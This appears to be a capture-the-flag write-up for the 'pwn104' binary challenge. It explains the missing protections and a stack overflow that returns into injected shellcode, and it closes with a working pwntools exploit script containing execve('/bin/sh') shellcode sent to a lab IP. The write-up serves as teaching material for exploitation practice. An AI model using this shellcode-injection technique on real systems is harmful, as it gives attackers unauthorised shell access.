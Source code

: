 # Challenge Name : pwn104

category : pwn

# File

Load file to Cutter . If you dont have cutter this is ref video on how to download and setup your cutter `https://shorturl.at/thoTb`

```
Cutter-v2.3.4-Linux-x86_64.AppImage pwn102-1644307392479.pwn102&
```

In Dashboard we can see the protection and the file format.

```
Canary : False
NX bit : False
PIC    : False
```

Looking at all function there is no call system anywhere.However since NX-bit is False . We can just execute a shell code .

# Approach

We will put the shell code to in the buffer and change the return address to point at the buffer back that contain the shellcode to be execute

However the hard thing is to know where our buffer address is since in most device the ASLR(Address space layout randomization) is `enable` the buffer address will be randomize every execution.

This challenge already help us by giving the the address of buffer. We can see that printf and read print and use exact address which is rbp-0x50.
![alt text](image-4.png)

By checking in hexdump we can see that it already specify the buf address using %p
![alt text](image-4-2.png)

# Python Scripting

![alt text](image-4-3.png)

```
from pwn import *

context.binary = binary = ELF("./pwn104-1644300377109.pwn104")

shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"


# p = process()
p = remote("10.10.58.247",9004)
output = p.recv()

buffer_address = int(output.split(b"at")[1].strip().decode("utf-8"),16)

#payload = shellcode + padding + rbp + buffer_address
payload = shellcode + b"A" *(0x50 - len(shellcode)) + b"A" * 0x8+ p64(buffer_address) +p64(buffer_address)

p.sendline(payload)

p.interactive()
```